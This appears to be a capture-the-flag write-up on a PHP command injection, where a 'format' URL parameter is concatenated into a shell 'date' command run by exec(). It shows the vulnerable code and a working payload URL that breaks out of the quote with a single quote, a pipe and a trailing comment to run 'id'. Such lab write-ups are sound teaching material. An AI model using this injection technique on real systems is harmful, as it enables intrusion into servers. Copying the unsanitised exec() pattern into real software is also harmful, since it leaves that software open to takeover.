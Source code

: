 In `TimeController.php` the format value is set, if the parameter is not sent, `%H:%M:%S` is set by default. Then passes it to the TimeModel class.

```php
$format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
$time = new TimeModel($format);
```

In `TimeModel.php`, the **format** value will be passed in the public function **__construct**, this value is directly passed to **exec()** function. Using the `exec()` function is very dangerous since with a lack of sanitation it is possible to execute system commands.

```php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

So this is where **Command Injection** is happening, this line runs a shell command, with the `format` value received from the URL.

```php
$this->command = "date '+" . $format . "' 2>&1";
```

We can break the string by prefixing input with a `'` single-quote, then enter our command separator like `|` or `;` and then avoid the redirection at the end with adding a trailing `#` comment to our input.

So our request look like this:

```http
http://94.237.62.244:57142/?format=%Y-%m-%d'|id+%23
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2024/Pasted%20image%2020240313230912.png)
